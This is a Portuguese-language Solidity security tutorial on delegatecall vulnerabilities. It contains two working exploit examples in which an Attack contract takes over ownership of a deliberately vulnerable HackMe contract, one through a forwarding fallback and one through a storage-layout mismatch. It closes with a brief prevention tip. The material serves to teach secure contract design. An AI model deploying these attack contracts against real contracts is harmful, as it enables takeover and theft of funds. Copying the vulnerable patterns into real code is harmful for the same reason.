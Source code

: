# Delegatecall

#### Vulnerabilidade <a href="#vulnerability" id="vulnerability"></a>

`delegatecall`é complicado de usar e seu uso errado ou entendimento incorreto pode levar a resultados devastadores.

Você deve ter 2 coisas em mente quando usar o `delegatecall`

1. `delegatecall` preserva o contexto (armazenagem, chamador etc...)
2. o layout da armazenagem deve ser o mesmo que o do contrato que faz a chamada `delegatecall` e do contrato que está sendo chamado.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.3;

/*
HackMe é um contrato que usa delegatecall para executar código.
Não é evidente que o proprietário do HackMe pode ser mudado já que não há 
função dentro HackMe para fazer isso. Contudo um invasor pode roubar o
contrato para explorar delegatecall. Vejamos como.

1. Alice implanta Lib
2. Alice implementa HackMe com endereço do Lib
3. Eve implementa Attack com endereço do HackMe
4. Eve chama Attack.attack()
5. Attack é agora o proprietário do HackMe

O que aconteceu?
Eve chamou Attack.attack().
Attack chamou a função fallback do HackMe enviando o seletor de função
do pwn(). HackMe encaminha a chamada para o Lib usando delegatecall.
Aqui msg.data contém o seletor de função do pwn().
Isso avisa ao Solidity para chamar a função pwn() dentro do Lib.
A função pwn() atualiza o proprietário para msg.sender.
Delegatecall roda o código do Lib usando o contexto do HackMe.
Consequentemente a armazenagem do HackMe foi atualizada para msg.sender onde 
msg.sender é o chamador do HackMe, nesse caso, Attack.
*/

contract Lib {
    address public owner;

    function pwn() public {
        owner = msg.sender;
    }
}

contract HackMe {
    address public owner;
    Lib public lib;

    constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }

    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}

contract Attack {
    address public hackMe;

    constructor(address _hackMe) {
        hackMe = _hackMe;
    }

    function attack() public {
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}
```

Aqui está mais um exemplo.

Você precisa entender como o Solidity armazena variáveis de estado antes de entender este exploit.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.3;

/*
Esta é uma versão mais sofisticada do exploit anterior.

1. Alice implanta Lib e HackMe com endereço do Lib
2. Eve implanta Attack com endereço do HackMe
3. Eve chama Attack.attack()
4. Attack agora é o proprietário do HackMe

O que aconteceu?
Observe que as variáveis de estado não estão definidas da mesma forma no Lib
e HackMe. Isso significa que chamando Lib.doSomething() muda a primeira 
variável de estado dentro do HackMe, que acontece que é o endereço do lib.

Dentro do attack(), a primeira chamada para doSomething() muda o endereço do lib
armazenado no HackMe. O endereço do lib agora está configurado para o Attack.
A segunda chamada para doSomething() chama Attack.doSomething() e aqui temos
a mudança do proprietário.
*/

contract Lib {
    uint public someNumber;

    function doSomething(uint _num) public {
        someNumber = _num;
    }
}

contract HackMe {
    address public lib;
    address public owner;
    uint public someNumber;

    constructor(address _lib) {
        lib = _lib;
        owner = msg.sender;
    }

    function doSomething(uint _num) public {
        lib.delegatecall(abi.encodeWithSignature("doSomething(uint256)", _num));
    }
}

contract Attack {
    // Certifique-se de que o layout de armazanagem é o mesmo que o do HackMe
    // Isso permitirá a atualização correta das variáveis de estado
    address public lib;
    address public owner;
    uint public someNumber;

    HackMe public hackMe;

    constructor(HackMe _hackMe) {
        hackMe = HackMe(_hackMe);
    }

    function attack() public {
        // substitui o endereço do lib
        hackMe.doSomething(uint(uint160(address(this))));
        // passa qualquer número como entrada, a função doSomething() abaixo
        // será chamada
        hackMe.doSomething(1);
    }

    // a assinatura da função deve corresponder à da HackMe.doSomething()
    function doSomething(uint _num) public {
        owner = msg.sender;
    }
}
```

#### Técnicas preventivas <a href="#preventative-techniques" id="preventative-techniques"></a>

* Use  `Library sem estado`
